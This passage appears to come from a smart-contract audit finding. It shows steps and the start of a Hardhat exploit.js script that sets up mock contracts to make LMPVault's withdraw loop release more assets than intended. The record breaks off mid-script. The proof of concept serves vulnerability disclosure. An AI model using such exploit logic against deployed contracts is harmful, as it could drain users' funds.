 ```solidity
    //... other functions needed
}
```

> 3. **Exploiting The Vulnerability**

a. Deploy `LMPVault` and `LMPDebt`.

b. Create multiple `IDestinationVault` mocks and deposit some assets into each of them.

c. Add these vaults to the `withdrawalQueue` of the `LMPVault`.

d. Deposit assets into the `LMPVault` using multiple accounts to ensure there's a mix of assets in idle and in the vaults.

e. Manipulate the state such that for one or more vaults in `withdrawalQueue`, the value returned by `_calcUserWithdrawSharesToBurn` will make `info.totalAssetsPulled` exceed `info.totalAssetsToPull` during the loop's execution.

f. Call the `withdraw` function from `LMPVault` and observe that more assets are withdrawn than intended.

> 4. **Hardhat Script**

Given our mock contracts, here's a Hardhat script to deploy and manipulate these contracts to trigger the vulnerability.

To successfully exploit this, you'll need to:

> 1. Control the state of the `MockDestinationVault` such that the amount of assets pulled during the `_withdraw` function loop exceeds what's expected.
> 2. Control the state of the `LMPVault` to have a mix of assets in idle and in the vaults.

**exploit.js**:
```javascript
const hre = require("hardhat");
const { ethers } = hre;

async function main() {
    const [owner, user1, ...others] = await ethers.getSigners();

// Mock ERC20 for testing
    const ERC20 = await hre.ethers.getContractFactory("ERC20Mock");
    const erc20 = await ERC20.deploy("MockToken", "MTK", ethers.utils.parseEther("1000000"));
    await erc20.deployed();

// Deploy LMPVault
    const LMPVault = await hre.ethers.getContractFactory("LMPVault");
    const lmpVault = await LMPVault.deploy();
    await lmpVault.deployed();

// Deploy MockDestinationVault and set balances
    const MockVault = await hre.ethers.getContractFactory("MockDestinationVault");
    const mockVault1 = await MockVault.deploy(erc20.address, erc20.address);
    await mockVault1.deployed();

// Add mock vault to LMPVault's withdrawalQueue
    await lmpVault.setWithdrawalQueue([mockVault1.address]);

// Manipulate MockDestinationVault state to make the exploit work
// Setting internal balance high and the debt low
    await mockVault1.setInternalBalance(ethers.utils.parseEther("5000"));
    await mockVault1.setDebtValue(ethers.utils.parseEther("100"));

// Transfer assets to MockDestinationVault
    await erc20.transfer(mockVault1.address, ethers.utils.parseEther("5000"));

// Deposit funds into LMPVault
    await erc20.approve(lmpVault.address, ethers.utils.parseEther("1000"));
```